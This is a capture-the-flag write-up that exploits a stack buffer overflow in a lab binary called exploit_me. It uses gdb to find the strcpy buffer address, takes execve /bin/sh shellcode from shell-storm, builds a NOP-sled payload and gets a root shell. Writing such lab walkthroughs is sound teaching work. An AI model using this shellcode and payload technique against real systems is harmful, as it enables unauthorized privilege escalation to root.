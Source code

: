# Writeup 3

Go back to the last step of [writeup 1](../writeup1.md#zaz-2-libc) and ssh as **zaz**.\
We used an exploit called **ret2libc** but we can use another method to exploit the binary, by injecting a **shellcode**
which will be copy to a buffer on the**stack** and then we can inject the address of this buffer in order to make the
**eip** read it.

## Setup exploit

1. **Get buffer's address on the stack**\
The address is returned by the function **strcpy** in **eax**.
```
(gdb) disass main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
(gdb) b *main+49
Breakpoint 1 at 0x8048425
(gdb) r aaaaaaaaaaaaaaaaaaaaaaaaaa
Starting program: /home/zaz/exploit_me aaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x08048425 in main ()
(gdb) info reg $eax
eax            0xbffff6b0	-1073744208
```
The address is `0xbffff6b0`.


2. **Get the shellcode**\
We can use the website [https://shell-storm.org/shellcode/index.html](https://shell-storm.org/shellcode/index.html) to get a shellcode.\
This one works [https://shell-storm.org/shellcode/files/shellcode-516.html](https://shell-storm.org/shellcode/files/shellcode-516.html).\
`\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`


3. **Create the payload**\
The payload consists in `padding + buffer address + NOP + shellcode`.\
What is NOP ? It stands for "No Operations", basically it is used to make sure that our exploit doesn’t fail,because we won’t always point
to the right address , so we add stuff that doesn’t do anything.\
So with that our shellcode is `python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")'`

## Exploit
We can just run:
```
./exploit_me $(python -c 'print("\x90" * 140 + "\xb0\xf6\xff\xbf" + "\x90" * 100 + "\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")')
# id
uid=0(root) gid=1005(zaz) groups=0(root),1005(zaz)
# whoami
root
```
